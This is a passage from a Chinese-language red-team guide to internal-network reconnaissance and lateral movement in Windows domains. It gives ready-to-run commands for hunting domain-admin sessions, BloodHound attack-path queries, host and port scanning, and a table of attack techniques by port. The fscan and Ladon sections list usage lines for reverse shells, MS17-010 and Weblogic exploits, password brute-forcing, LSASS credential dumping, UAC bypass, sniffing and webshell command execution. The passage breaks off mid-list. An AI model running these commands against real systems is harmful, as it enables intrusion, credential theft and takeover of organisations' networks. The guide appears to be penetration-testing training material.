| -e filename.txt | 指定要排除的主机名文件                               |
| -o filename.txt | 将所有输出重定向到指定文件                           |
| -d domain       | 指定要提取主机列表的域，如果未指定，则使用当前域     |
| -g group        | 指定用于用户搜寻的组名，如果未指定，则使用“域管理员” |
| -c              | 检查找到的共享目录/文件，以进行读取访问              |
| -i interval     | 设置枚举主机之间等待的秒数                           |
| -j jitter       | 应用于间隔的抖动百分比(0 -1.0)                       |

**使用方法：**

```
netview <参数>
```

##### Netsess.exe

Netsess.exe原理也是调用NetSessionEnum API，并且在远程主机上无需管理员权限。

下载地址：http://www.joeware.net/freetools/tools/netsess/index.htm

**使用方法：**

```
NetSess.exe \\zzx.com
```




##### Empire的user_hunter模块

在Enpire中也有类似invoke-UserHunter的模块——user_hunter。这个模块用于查找域管理员登录的机器。

下载地址：https://github.com/EmpireProject/Empire

**使用方法**

```
(Empire) > usemodule powershell/situational_awareness/network/powerview/user_hunter
(Empire: powershell/situational_awareness/network/powerview/user_hunter) > 
(Empire: powershell/situational_awareness/network/powerview/user_hunter) > set Agent PYMUZKER
(Empire: powershell/situational_awareness/network/powerview/user_hunter) > execute
```


##### Nmap的NSE脚本

如果存在域账户或者本地账户，就可以使用Nmap的smb-enum-sessions.nse引擎获取远程机器的登陆会话（不需要管理员权限）。

下载地址：https://nmap.org/nsedoc/scripts/smb-enum-sessions.html

| 脚本               | 描述                                                         |
| :----------------- | :----------------------------------------------------------- |
| smb-enum-domains   | 尝试枚举系统上的域及其策略                                   |
| smb-enum-users     | 枚举远程Windows系统上的用户，并提供尽可能多的信息            |
| smb-enum-shares    | 便利远程主机共享目录                                         |
| smb-enum-processes | 通过SMB从远程服务器提取进程列表，可以知道目标主机运行哪些软件。需要管理员权限 |
| smb-enum-sessions  | 枚举在本地或通过SMB共享登录到系统的用户                      |
| smb-os-discovery   | 尝试通过SMB协议（端口445或139）确定操作系统，计算机名称，域，工作组和当前时间 |


#### 查找域管理员进程

##### 本机检查

* 获取域管理员列表

```
net group "Domain Admins" /domain
```

查看哪些用户是域管理员用户



- 列出本机的所有进程及进程用户

```
tasklist /v
```

查看本机进程及进程用户信息，检查是否有域管理员的进程



##### 查询域控制器的域用户会话

查询域控制器的域用户会话，其原理是：在域控制器中查询域用户会话列表，并将其与域管理员列表进行交叉引用，从而得到域管理员会话的系统列表。

* 查询域控制器列表

```
net group "Domain Controllers" /domain
```



* 收集域管理员列表

```
net group "Domain Admins" /domain
```



* 用netsess.exe收集所有活动域的会话列表

```
.\NetSess.exe
```

有会话才有信息，否则就没有



* 交叉引用域管理员列表与活动会话列表

对域管理员列表和活动会话列表进行交叉引用，可以确定那些IP地址有活动域令牌。

```
net group "Domain Controllers" /domain > dcs.txt
net group "Domian Admins" /domain > admins.txt
```



下载链接：http://www.unixwiz.net/tools/nbtscan.html

需要提交下载好nbtscan工具放到当前目录下，运行如下脚本，将域控制器列表添加到dcs.txt中，将域管理员列表添加到admins.txt中

然后运行以下脚本，会在当前目录下生成一个文本文件sessions.txt

```
For /F %i in (dcs.txt) do @echo [+] Querying DC %i && @netsess.exe -h %i 2>nul>sessions.txt && For /F %a in (admins.txt) Do @Type sessions.txt | findstr /I %a
```

这里因为没有建立会话，所有sessions.txt文件为空




##### 查询远程系统中运行的任务

如果目标机器在域系统中是通过共享的本地管理员账户运行的，就可以使用下列脚本来查询系统中的域管理任务。

```
FOR /F %i in (ips.txt) DO @echo [+] %i && @tasklist /v /S %i /U user /P password 2 > NUL > output.txt && FOR /F %n in (admins.txt) Do @Type output.txt | findstr %n > NUL && echo [!] %n was found running a process on %i && pause
```




##### **扫描远程系统的NetBIOS信息**

下载链接：http://www.unixwiz.net/tools/nbtscan.html

需要提交下载好nbtscan工具放到当前目录下，运行如下脚本，将目标域系统列表添加到ips.txt文件中，将收集到的域管理员列表添加到admins.txt文件中

```
for /F %i in (ips.txt) do @echo [+] Checking %i && nbtscan.exe-f %i 2>NUL >nbsessions.txt && FOR /F %n in (admins.txt) DO @type nbsessions.txt | findstr /I %n > NUL && echo [!] %n was found logged into %i
```



#### 域分析工具[BloodHound](https://github.com/BloodHoundAD/BloodHound)

```
  BloodHound是一款免费的工具。一方面,BloodHound通过图与线的形式，将域内用户、计算机、组、会话、ACL，以及域内所有的相关用户、组、计算机、登录信息、访问控制策略之间的关系，直观地展现在Red team成员面前，为他们更便捷地分析域内情况、更快速地在域内提升权限提供条件。另一方面，BloodHound可以帮助blue team成员更好地对已放网络系统进行安全检查，以及保证域的安全性。BloodHound使用图形理论，在活动目录环境中自动理清大部分人员之间的关系和细节。使用BloodHound，可以快速、深入地了解活动目录用户之间的关系，获取哪些用户具有管理员权限、哪些用户对所有的计算机都具有管理员权限、哪些用户是有效的用户组成员等信息。
```

##### 安装配置BloodHound

BloodHound安装

下面基于Kali Linux安装BloodHound

```
sudo apt install bloodhound 
```



###### 运行neo4j服务

```
sudo neo4j start
```



服务启动后，浏览器访问"http://127.0.0.1:7474"，然后在打开的页面输入用户名和密码即可

- 第一次登录后会要求修改密码

```
Host默认为 bolt://127.0.0.1:7687
User默认为 neo4j
Password默认为 neo4j
```



**登录后页面**



###### 运行bloodhound

```
在Kali终端上输入bloodhound命令运行
```

- 输入上面的neo4j账号和密码登录即可



**登录后界面**



 界面左上角是菜单按钮和搜素栏。三个选项卡分别是数据库信息(Database Info)、节点信息(Node Info)和分析(Analysls)。数据库信息选显卡中显示了所分析域的用户数量、计算机数量、组数量、会话数量、ACL数量、关系等信息，用户可以在此处执行基本的数据库管理操作，包括注销和切换数据库，以及清除当前加载的数据库。节点信息选项卡中显示了用户在图表中单击的节点的信息。分析选项卡中显示了BloodHound预置的查询请求和用户自己构建的查询请求。

界面右上角是设置区。

第一个是刷新功能，BloodHound将重新计算并绘制当前显示的图形；

第二个是导出图形功能，可以将当前绘制的图形导出为JSON或PNG文件；

第三个是导入图形功能，可以导入JSON文件；

第四个是上传数据功能，BloodHound将对上传的文件进行自动检测，然后获取CSV格式的数据；

第五个是更改布局类型功能，用于在分层和强制定向图布局之间切换；

第六个是设置功能，可以更改节点的折叠行为，以及在不同的细节模式之间切换。


##### 采集数据

在使用BloodHound进行分析时，需要调用来自活动目录的三条信息，具体如下

* 哪些用户登录了哪些机器
* 哪些用户拥有管理员权限
* 哪些用户和组属于哪些组

BloodHound需要的这三条信息依赖于PowerView.ps1脚本的BloodHound。BloodHound分为两部分：

* Powershll采集器脚本（有两个版本，旧版本叫做BloodHound_Old.ps1，新版本叫做SharpHound.ps1）
* 可执行文件SharpHound.exe

这两个采集器的下载地址为：

```
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors
```

执行如下命令采集信息，低权限用户即可

```
SharpHound.exe -c all
或者
Invoke-Bloodhound -CollectionMethod ALL
```

执行完成后，会在当前目录生成时间戳_BloodHound.zip的压缩包




##### 导入数据

BloodHound支持通过界面上单个文件和ZIP文件，最简单的方法是将压缩文件放到界面上节点信息选项卡以外的任意位置。导入文件后即查看到内网相关信息了

如下图所示，数据库中有11个用户、51个组、3台计算机、1个域、514条ACL、587个关系。



###### 查询信息

进入到查询模块，可以看到预定义的24个常用的查询条件

```
|Find all Domain Admins|查找所有域管理员|
|Find Shortest Paths to Domain Admins|查找到域管理员的最短路径|
|Find Principals with DCSync Rights|查找具有DCSync权限的主体|
|Users with Foreign Domain Group Membership|具有外部域组成员资格的用户|
|Groups with Foreign Domain Group Membership|具有外部域组成员身份的组|
|Map Domain Trusts|映射域信任|
|Shortest Paths to Unconstrained Delegation Systems|无约束委托系统的最短路径|
|Shortest Paths from Kerberoastable Users|Kerberosatable用户的最短路径|
|Shortest Paths to Domain Admins from Kerberoastable Users|Kerberoastable用户到域管理员的最短路径|
|Shortest Path from Owned Principals|从拥有的主体的最短路径|
|Shortest Paths to Domain Admins from Owned Principals|从拥有的主体到域管理员的最短路径|
|Shortest Paths to High Value Targets|通往高价值目标的最短路径|
|Find Computers where Domain Users are Local Admin|查找域用户为本地管理员的计算机|
|Shortest Paths from Domain Users to High Value Targets|从域用户到高价值目标的最短路径|
|Find All Paths from Domain Users to High Value Targets|查找从域用户到高价值目标的所有路径|
|Find Workstations where Domain Users can RDP|查找域用户可以RDP的工作站|
|Find Servers where Domain Users can RDP|查找域用户可以RDP的服务器|
|Find Dangerous Rights for Domain Users Groups|查找域用户组的危险权限|
|Find Kerberoastable Members of High Value Groups|寻找高价值群体中的Kerberosatable成员|
|List all Kerberoastable Accounts|列出所有Kerberostable帐户|
|Find Kerberoastable Users with most privileges|查找拥有最多权限的Kerberostable用户|
|Find Domain Admin Logons to non-Domain Controllers|查找到非域控制器的域管理员登录|
|Find Computers with Unsupported Operating Systems|查找具有不受支持的操作系统的计算机|
|Find AS-REP Roastable Users (DontReqPreAuth)|查找AS-REP可烘焙用户（DontReqPreAuth）|
```




### 主机发现

#### 基于ARP扫描存活主机

```
	ARP,通过解析网路层地址来找寻数据链路层地址的一个在网络协议包中极其重要的网络传输 协议。根据IP地址获取物理地址的一个TCP/IP协议。主机发送信息时将包含目标IP地址的 ARP请求广播到网络上的所有主机，并接收返回消息，以此确定目标的物理地址
```

##### Nmap扫描（速度快，信息精确）

```
nmap -sn -PR 192.168.23.0/24
```



##### MSF扫描

```
use auxiliary/scanner/discovery/arp_sweep
```




##### netdiscover

```
sudo netdiscover -r 192.168.23.0/24 -i vmnet14
```




##### arp-scan(Linux)

(推荐)速度与快捷    项目地址：https://linux.die.net/man/1/arp-scan   

```
sudo arp-scan --localnet --interface=vmnet14
```




##### arp-scan(windows)

(推荐)速度与快捷   下载链接：https://github.com/QbsuranAlang/arp-scan-windows-/tree/master/arp-scan/Release(x64)

```
arp-scan.exe -t 192.168.23.0/24
```




##### Powershell中invoke-ARPScan.ps1脚本

下载地址：https://www.powershellgallery.com/packages/AdminToolbox.Networking/2.3.2.1/Content/Private%5CInvoke-ArpScan.ps1

需要提前将invoke-ARPScan.ps1脚本上传到目标主机中

```
Import-Module .\Invoke-ArpScan.ps1
invoke-ARPScan -CIDR 192.168.23.0/24
```




##### arp-ping.exe扫描

下载地址：https://www.elifulkerson.com/projects/arp-ping.php

```
arp-ping.exe 192.168.23.130
```




#### 基于netbios扫描存活主机

```
	IBM公司开发，主要用于数十台计算机的小型局域网。该协议是一种在局域网上的程序可以 使用的应用程序编程接口（API），为程序提供了请求低级服务的同一的命令集，作用是为 了给局域网提供网络以及其他特殊功能。 系统可以利用WINS服务、广播及Lmhost文件等多种模式将NetBIOS名-——特指基于 NETBIOS协议获得计算机名称——解析为相应IP地址，实现信息通讯，所以在局域网内部使 用NetBIOS协议可以方便地实现消息通信及资源的共享。
```

##### Nmap扫描

```
sudo nmap --script=nbstat.nse -p 137 -sU -T4 192.168.23.0/24
```



##### MSF扫描

```
use auxiliary/scanner/netbios/nbname
```



##### nbtscan扫描

nbtscan工具下载地址：http://www.unixwiz.net/tools/nbtscan.html

```
nbtscan.exe 192.168.23.0/24
```



##### NetBScanner扫描

项目地址： https://www.nirsoft.net/utils/netbios_scanner.html



#### 基于SMB扫描存活主机

##### MSF扫描

```
use auxiliary/scanner/smb/smb_version
```




##### nmap扫描

```
 nmap ‐sU ‐sS ‐‐script smb‐enum‐shares.nse ‐p 445 192.168.23.0/24 
```




##### CrackMapExec扫描

​	CrackMapExec（CME）是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务。其缔造者@byt3bl33d3r称，该工具的生存概念是，“利用AD内置功能/协议达成其功能，并规避大多数终端防护/IDS/IPS解决方案。”

```
crackmapexec  smb 192.168.23.0/24
```




**基于powershell**

**单IP扫描**

```
445 | %{ echo ((new-object Net.Sockets.TcpClient).Connect("192.168.23.130",$_)) "$_ is open"} 2>$null
```



**多ip扫描**

```
1..5 | % { $a = $_; 445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.23.$a",$_)) "Port $_ is open"} 2>$null} 
```



**多IP多端口扫描**

```
128..130 | % { $a = $_; write-host "- - - - -"; write-host "192.168.23.$a"; 80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("192.168.23.$a",$_)) "Port $_ is open"} 2>$null}
```




#### 基于ICMP扫描存活主机

```
	它是TCP/IP协议族的一个子协议，用于在IP主机、路由器之间传递控制消息。控制消息是指 网络通不通、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输 用户数据，但是对于用户数据的传递起着重要的作用。
```

**Nmap扫描**

```
nmap ‐sn ‐PE ‐T4 192.168.23.0/24
```


**CMD下ping命令扫描**

```
for /l %i in (1,1,255) do @ping 192.168.23.%i -w 1 -n 1|find /i "ttl="   //windows扫描C端
```



##### Invoke-TSPingSweep脚本扫描存活主机

下载地址：https://github.com/dwj7738/My-Powershell-Repository/blob/master/Scripts/Invoke-TSPingSweep.ps1

需要提前将Invoke-TSPingSweep脚本上传到目标主机中

```
powershell.exe -exec bypass -Command "Import-Module ./Invoke-TSPingSweep.ps1;Invoke-TSPingSweep -StartAddress 192.168.23.0 -EndAddress 192.168.23.254"
```



#### 基于SNMP扫描存活主机

##### Nmap扫描

```
nmap -sU --script snmp-brute 192.168.23.130 -T4
```



##### MSF扫描

```
use auxiliary/scanner/snmp/snmp_enum
```



#### 基于UDP扫描存活主机

```
	UDP（User Datagram Protocol）是一种无连接的协议，在第四层-传输层，处于IP协议的 上一层。UDP有不提供数据包分组、组装和不能对数据包进行排序的缺点，也就是说，当报 文发送之后，是无法得知其是否安全完整到达的。
UDP特性：
1.UDP 缺乏可靠性。UDP 本身不提供确认，超时重传等机制。UDP 数据报可能在网络中被复制，被重新排序，也不保证每个数据报只到达一次。
2.UDP 数据报是有长度的。每个UDP数据报都有长度，如果一个数据报正确地到达目的 地，那么该数据报的长度将随数据一起传递给接收方。而TCP是一个字节流协议，没有任 何（协议上的）记录边界。
3.UDP是无连接的。UDP 客户和服务器之前不必存在长期的关系。大多数的UDP实现中都 选择忽略源站抑制差错，在网络拥塞时，目的端无法接收到大量的UDP数据报
4.UDP支持多播和广播
```

##### Nmap扫描

```
sudo nmap -sU -T5 -sV -p 500  192.168.23.1
```




##### MSF扫描

```
use auxiliary/scanner/discovery/udp_probe
use auxiliary/scanner/discovery/udp_sweep
```




**unicornscan扫描(Linux系统下推荐)**

```
unicornscan -mU 192.168.1.200
```




##### 在线基于Nmap的UDP扫描

https://pentest-tools.com/network-vulnerability-scanning/udp-port-scanner-online-nmap


#### 基于msf扫描存活主机

```
auxiliary/scanner/discovery/arp_sweep
auxiliary/scanner/discovery/udp_sweep
auxiliary/scanner/ftp/ftp_version
auxiliary/scanner/http/http_version
auxiliary/scanner/smb/smb_version
auxiliary/scanner/ssh/ssh_version
auxiliary/scanner/telnet/telnet_version
auxiliary/scanner/discovery/udp_probe
auxiliary/scanner/dns/dns_amp
auxiliary/scanner/mysql/mysql_version
```


### 端口扫描

#### **利用telnet命令进行端口扫描**

```
telnet 192.168.23.130 445
```



#### PowerSploit的Invoke-portscan脚本

下载地址：https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

​                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         需要提前将Invoke-portscan.ps1脚本上传到目标主机中

```
import-module .\Invoke-portscan.ps1
invoke-Portscan -Hosts 192.168.23.0/24 -T 4 -ports '445,1433,80,8080,3389' -oA c:\port1.txt"
```



#### 基于powershell的IPv4PortScanner

下载地址：https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1

需要提前将IPv4PortScanner.ps1脚本上传到目标主机中

```
.\IPv4PortScan.ps1
```



#### Nishang的Invoke-Portscan脚本

下载链接：https://github.com/samratashok/nishang/blob/master/Scan/Invoke-PortScan.ps1

需要提前将Invoke-Portscan.ps1脚本上传到目标主机中

```\
Import-Module .\Invoke-Portscan.ps1
Invoke-PortScan -StartAddress 192.168.23.128 -EndAddress 192.168.23.130 -ResolveHost -ScanPort

使用选项：
StartAddress 扫描范围开始地址 
EndAddress 扫描范围结束地址
ScanPort 进行端口扫描
Port 指定扫描端口，不指定port，则默认端口为 21,22,23,53,69,71,80,98,110,139,111, 389,443,445,1080,1433,2001,2049,3001,3128,5222,6667,6868,7777,7878,8080,1521,3306,3389, 5801,5900,5555,5901
TimeOut 设置超时时间
-ResolveHost 解析主机名
扫描存活主机及端口并解析主机名
```




#### Metasploit内置的端口扫描模块

```
auxiliary/scanner/portscan/ack        //ACK防火墙扫描
auxiliary/scanner/portscan/ftpbounce  //FTP跳端口扫描
auxiliary/scanner/portscan/syn        //SYN端口扫描
auxiliary/scanner/portscan/tcp        //TCP端口扫描
auxiliary/scanner/portscan/xmas       //TCP"XMas"端口扫描
```


#### Nmap端口扫描

```
支持多种扫描模式：
-sT: TCP 扫描
-sS: SYN 扫描
-sA: ACK 扫描
-sF：FIN扫描
-sU: UDP 扫描
-sR: RPC 扫描
-sP: ICMP扫描
```

#### 常见端口漏洞利用总结

|   端口号    |         端口说明          |                           攻击技巧                           |
| :---------: | :-----------------------: | :----------------------------------------------------------: |
|  21/22/69   |  ftp/tftp：文件传输协议   |          允许匿名上传、下载、爆破、嗅探、溢出和后门          |
|     22      |       ssh：远程连接       |                    爆破OpenSSH；28个退格                     |
|     23      |     telnet：远程连接      |                      爆破\嗅探、弱口令                       |
|     25      |      smtp：邮件服务       |                           邮件伪造                           |
|     53      |       DNS：域名系统       | DNS区域传输\DNS劫持\DNS缓存投毒\DNS欺骗\利用DNS隧道技术刺透防火墙 |
|    67/68    |           dhcp            |                          劫持\欺骗                           |
| 80/443/8080 |      常见web服务端口      |              web攻击、爆破、对应服务器版本漏洞               |
|     110     |           pop3            |                          爆破、嗅探                          |
|     139     |           samba           |                 爆破\未授权访问\远程代码执行                 |
|     143     |           imap            |                             爆破                             |
|     161     |           snmp            |                             爆破                             |
|     389     |     ldap目录访问协议      |                 注入攻击\未授权访问，弱口令                  |
| 512/513/514 |        linux rexec        |                     直接使用rlogin\爆破                      |
|     873     |           rsync           |                     未授权访问\文件上传                      |
|    1080     |          socket           |                      爆破：进行内网渗透                      |
|    1352     |   lotus Domino邮件服务    |                爆破：弱口令\信息泄漏：源代码                 |
|    1433     |           mssql           |           爆破：使用系统用户登录\注入攻击\SA弱口令           |
|    1521     |          oracle           |                 爆破：TNS\注入攻击\反弹shell                 |
|    2049     |            nfs            |                           配置不当                           |
|    2181     |         zookeeper         |                          未授权访问                          |
|    3306     |           mysql           |                   爆破\拒绝服务\注入\提权                    |
|    3389     |            rdp            |                        爆破\Shift后门                        |
|    3690     |          SVN服务          |                      SVN泄露\未授权访问                      |
|    4848     |         glassfish         |                 爆破：控制台弱口令\认证绕过                  |
|    5000     |        sybase/DB2         |                          爆破\注入                           |
|    5432     |        postgresql         |               缓冲区溢出\注入攻击\爆破：弱口令               |
|    5632     |        pcanywhere         |                 拒绝服务\代码执行，抓取密码                  |
|    5900     |            vnc            |                    爆破：弱口令\认证绕过                     |
|    6379     |           redis           |                   未授权访问\爆破：弱口令                    |
|  7001/7002  |         weblogic          |         Java反序列化\控制台弱口令\控制台部署webshell         |
|    8069     |          zabbix           |                     远程命令执行\SQL注入                     |
|  8080/8089  | JBoss/Resin/Jetty/Jenkins |                    反序列化、控制台弱口令                    |
|    9090     |      websphere控制台      |                爆破：控制台弱口令\Java反序列                 |
|  9200/9300  |       elasticsearch       |                         远程代码执行                         |
|    10000    |      webmin控制面板       |                            弱口令                            |
|    11211    |        memcacache         |                          未授权访问                          |
| 27017/27018 |          mongodb          |                       爆破\未授权访问                        |
|    50000    |  SAP Management Console   |                           远程执行                           |

### 内网综合扫描工具

#### Fscan

​	一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbio探测、域控识别等功能。

下载连接：https://github.com/shadow1ng/fscan

**工具使用方法：**

```
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
```

**默认使用全部模块扫描**

```
fscan64.exe -h 192.168.23.130
```



**指定扫描MS17-010漏洞**

```
fscan64.exe -h 192.168.23.130
```




#### Ladon

​	Ladon一款用于大型网络渗透的多线程插件化综合扫描神器，含端口扫描、服务识别、网络资产、密码爆破、高危漏洞检测以及一键GetShell，支持批量A段/B段/C段以及跨网段扫描，支持URL、主机、域名列表扫描。7.2版本内置94个功能模块,外部模块18个,通过多种协议以及方法快速获取目标网络存活主机IP、计算机名、工作组、共享资源、网卡地址、操作系统版本、网站、子域名、中间件、开放服务、路由器、数据库等信息，漏洞检测包含MS17010、SMBGhost、Weblogic、ActiveMQ、Tomcat、Struts2系列等，密码爆破13种含数据库(Mysql、Oracle、MSSQL)、FTP、SSH、VNC、Windows(LDAP、SMB/IPC、NBT、WMI、SmbHash、WmiHash、Winrm)、BasicAuth、Tomcat、Weblogic、Rar等，远程执行命令包含(wmiexe/psexec/atexec/sshexec/jspshell),Web指纹识别模块可识别75种（Web应用、中间件、脚本类型、页面类型）等，可高度自定义插件POC支持.NET程序集、DLL(C#/Delphi/VC)、PowerShell等语言编写的插件,支持通过配置INI批量调用任意外部程序或命令，EXP生成器一键生成漏洞POC快速扩展扫描能力。Ladon支持Cobalt Strike插件化扫描快速拓展内网进行横向移动

**下载地址：https://github.com/k8gege/Ladon**

**多协议探测存活主机**

```
Ladon.exe 192.168.23.0/24 OnlinePC
```



**多协议识别操作系统**

```
Ladon.exe 192.168.23.0/24 OsScan
```



**扫描SMB漏洞MS17010** 

```
Ladon.exe 192.168.23.0/24 MS17010
```



**更多使用方法：**

```
##多协议探测存活主机 （IP、机器名、MAC地址、制造商）
Ladon 192.168.1.8/24 OnlinePC

##多协议识别操作系统 （IP、机器名、操作系统版本、开放服务）
Ladon 192.168.1.8/24 OsScan

##扫描存活主机
Ladon 192.168.1.8/24 OnlineIP

##ICMP扫描存活主机
Ladon 192.168.1.8/24 Ping

##扫描SMB漏洞MS17010 （IP、机器名、漏洞编号、操作系统版本）
Ladon 192.168.1.8/24 MS17010

##SMBGhost漏洞检测 CVE-2020-0796 （IP、机器名、漏洞编号、操作系统版本）
Ladon 192.168.1.8/24 SMBGhost

##扫描Web信息/Http服务
Ladon 192.168.1.8/24 WebScan

##扫描C段站点URL域名
Ladon 192.168.1.8/24 UrlScan

##扫描C段站点URL域名
Ladon 192.168.1.8/24 SameWeb

##扫描子域名、二级域名
Ladon baidu.com SubDomain

##域名解析IP、主机名解析IP
Ladon baidu.com DomainIP Ladon baidu.com HostIP

##域内机器信息获取
Ladon AdiDnsDump 192.168.1.8 （Domain IP）

##扫描C段端口、指定端口扫描
Ladon 192.168.1.8/24 PortScan Ladon 192.168.1.8 PortScan 80,445,3389

##扫描C段WEB以及CMS（75种Web指纹识别）
Ladon 192.168.1.8/24 WhatCMS

##扫描思科设备
Ladon 192.168.1.8/24 CiscoScan Ladon http://192.168.1.8 CiscoScan

##枚举Mssql数据库主机 （数据库IP、机器名、SQL版本）
Ladon EnumMssql

##枚举网络共享资源 （域、存活IP、共享路径）
Ladon EnumShare

##扫描LDAP服务器
Ladon 192.168.1.8/24 LdapScan

##扫描FTP服务器
Ladon 192.168.1.8/24 FtpScan

暴力破解/网络认证/弱口令/密码爆破/数据库/网站后台/登陆口/系统登陆
##445端口 SMB密码爆破(Windows)
Ladon 192.168.1.8/24 SmbScan

##135端口 Wmi密码爆破(Windowns)
Ladon 192.168.1.8/24 WmiScan

##389端口 LDAP服务器、AD域密码爆破(Windows)
Ladon 192.168.1.8/24 LdapScan

##5985端口 Winrm密码爆破(Windowns)
Ladon 192.168.1.8/24 WinrmScan.ini

##445端口 SMB NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 SmbHashScan

##135端口 Wmi NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 WmiHashScan

##22端口 SSH密码爆破(Linux)
Ladon 192.168.1.8/24 SshScan Ladon 192.168.1.8:22 SshScan

##1433端口 Mssql数据库密码爆破
Ladon 192.168.1.8/24 MssqlScan

##1521端口 Oracle数据库密码爆破
Ladon 192.168.1.8/24 OracleScan

##3306端口 Mysql数据库密码爆破
Ladon 192.168.1.8/24 MysqlScan

##7001端口 Weblogic后台密码爆破
Ladon http://192.168.1.8:7001/console WeblogicScan Ladon 192.168.1.8/24 WeblogicScan

##5900端口 VNC远程桌面密码爆破
Ladon 192.168.1.8/24 VncScan

##21端口 Ftp服务器密码爆破
Ladon 192.168.1.8/24 FtpScan

##8080端口 Tomcat后台登陆密码爆破
Ladon 192.168.1.8/24 TomcatScan Ladon http://192.168.1.8:8080/manage TomcatScan

##Web端口 401基础认证密码爆破
Ladon http://192.168.1.8/login HttpBasicScan

##445端口 Impacket SMB密码爆破(Windowns)
Ladon 192.168.1.8/24 SmbScan.ini

##445端口 IPC密码爆破(Windowns)
Ladon 192.168.1.8/24 IpcScan.ini

漏洞检测/漏洞利用/Poc/Exp
##SMB漏洞检测(CVE-2017-0143/CVE-2017-0144)
Ladon 192.168.1.8/24 MS17010

##Weblogic漏洞检测(CVE-2019-2725/CVE-2018-2894)
Ladon 192.168.1.8/24 WeblogicPoc

##PhpStudy后门检测(phpstudy 2016/phpstudy 2018)
Ladon 192.168.1.8/24 PhpStudyPoc

##ActiveMQ漏洞检测(CVE-2016-3088)
Ladon 192.168.1.8/24 ActivemqPoc

##Tomcat漏洞检测(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatPoc

##Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp

##Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp

##Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc

FTP下载、HTTP下载
##HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##Ftp下载
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe

加密解密(HEX/Base64)
##Hex加密解密
Ladon 123456 EnHex Ladon 313233343536 DeHex

##Base64加密解密
Ladon 123456 EnBase64 Ladon MTIzNDU2 DeBase64

网络嗅探
##Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5

##HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5

##网络嗅探
Ladon Sniffer

密码读取
##读取IIS站点密码、网站路径
Ladon IISpwd

##DumpLsass内存密码
Ladon DumpLsass

信息收集
##进程详细信息
Ladon EnumProcess Ladon Tasklist

##获取命令行参数
Ladon cmdline Ladon cmdline cmd.exe

##获取渗透基础信息
Ladon GetInfo Ladon GetInfo2

##NET & PowerShell版本
Ladon NetVer Ladon PSver Ladon NetVersion Ladon PSversion


远程执行(psexec/wmiexec/atexec/sshexec)
##445端口 PSEXEC远程执行命令（交互式）
net user \192.168.1.8 k8gege520 /user:k8gege Ladon psexec 192.168.1.8 psexec> whoami nt authority\system

##135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami

##22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami

##JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami

##WebShell远程执行命令（非交互式）
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami

提权降权
##BypassUac 绕过UAC执行,支持Win7-Win10
Ladon BypassUac c:\1.exe Ladon BypassUac c:\1.bat

##GetSystem 提权或降权运行程序
Ladon GetSystem cmd.exe Ladon GetSystem cmd.exe explorer

##Runas 模拟用户执行命令
Ladon Runas user pass cmd

其它功能
##Win2008一键启用.net 3.5
Ladon EnableDotNet

##获取内网站点HTML源码
Ladon gethtml http://192.168.1.1

##检测后门
Ladon CheckDoor Ladon AutoRun

##获取本机内网IP与外网IP
Ladon GetIP

##一键迷你WEB服务器
Ladon WebSer 80 Ladon web 80

反弹Shell
##反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##反弹TCP MSF MET Shell
